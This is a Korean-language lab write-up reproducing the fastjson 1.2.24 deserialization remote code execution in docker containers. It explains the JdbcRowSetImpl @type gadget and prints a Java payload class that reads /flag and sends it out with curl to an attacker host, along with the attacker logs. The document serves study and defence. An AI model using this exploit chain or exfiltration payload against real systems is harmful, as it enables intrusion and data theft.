 # fastjson 1.2.24 역직렬화 취약점으로 인한 원격 임의코드 실행
> [동헌희_4412(hui1601)](https://github.com/hui1601)

**AMD64 아키텍처에서 동작합니다.**
## 요약

fastjson은 클래스를 인스턴스화하고 해당 클래스 메서드의 자료형에 따라 json 구문 분석에서 자동 유형 사용을 지원한다. 일부 악의적인 익스플로잇 코드는 코드에서 관련 메서드를 조회하여 설정할 수 있다.

## 분석
fastjson은 `@type` 필드를 통해 클래스를 인스턴스화하고 해당 클래스 메서드의 자료형에 따라 json 구문 분석에서 자동 유형 사용을 지원한다.
또한 역직렬화 과정 중, `setter`, `getter`가 존재하면 해당 메서드를 호출하고, 없을 경우에만 `field`에 값을 직접 할당한다.
이를 이용해 `@type` 필드에 `com.sun.rowset.JdbcRowSetImpl` 클래스를 지정하고 `dataSourceName` 필드에 악의적인 코드를 입력하고, `autoCommit` 필드에 `true` 값을 입력하면, `setAutoCommit` 메서드가 호출되어 악의적인 코드가 실행된다.

## 환경 구성 및 실행
```sh
docker compose up -d # 공격자, 피해 서버 컨테이너의 Dockerfile을 빌드하고 실행된다. 이때, 피해 서버의 `/flag` 파일에 플래그가 저장되어 있다.
```
먼저 공격자와 피해 서버를 docker compose로 실행한다.
```sh
docker exec -it 1224-rce-attacker-1 /bin/bash
```
공격자 컨테이너로 접속한다.
```sh
./exploit.sh
```
`exploit.sh` 스크립트를 실행하여 취약점을 익스플로잇한다.
```java
import java.lang.Runtime;
import java.math.BigInteger;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.stream.Stream;
public class TouchFile {
    static {
        try {
            Stream<String> stream = Files.lines(Paths.get("/flag"));
            String flag = stream.findFirst().get();
            String hex = String.format("%x", new BigInteger(1, flag.getBytes()));
            Runtime.getRuntime().exec("curl http://attacker/?flag=" + hex);
        } catch (Exception ignore) {}
    }
}
```
exploit.sh에서 익스플로잇할 때 사용하는 `TouchFile.class` 파일이다. `TouchFile` 클래스는 `/flag` 파일을 읽어들여 `flag` 파일의 내용을 공격자에게 전송하는 코드를 포함하고 있다.
## 결과
```sh
docker container logs 1224-rce-attacker-1 # 공격자 컨테이너 로그를 확인한다.(python3 -m http.server 80 의 로그)
```
```
172.30.0.2 - - [05/May/2024 07:23:00] "GET /TouchFile.class HTTP/1.1" 200 -
172.30.0.2 - - [05/May/2024 07:23:00] "GET /?flag=464c41477b666173746a736f6e5f312e322e32345f7263657d HTTP/1.1" 200 -
```
![image](poc.png)

공격자 컨테이너 로그를 확인하면 `TouchFile.class` 파일을 읽어들여 실행하고, 실행된 클래스가 `/flag` 파일의 내용을 공격자에게 전송하는 것을 확인할 수 있다.

## 정리

해당 취약점은 fastjson 1.2.24 버전에서 발생하는 역직렬화 취약점으로, 공격자가 악의적인 코드를 입력하여 피해 서버에서 임의코드를 실행할 수 있다. 따라서, 주기적인 취약점 점검과 의존성 업데이트를 통해 취약점을 방지하는 것이 중요하다.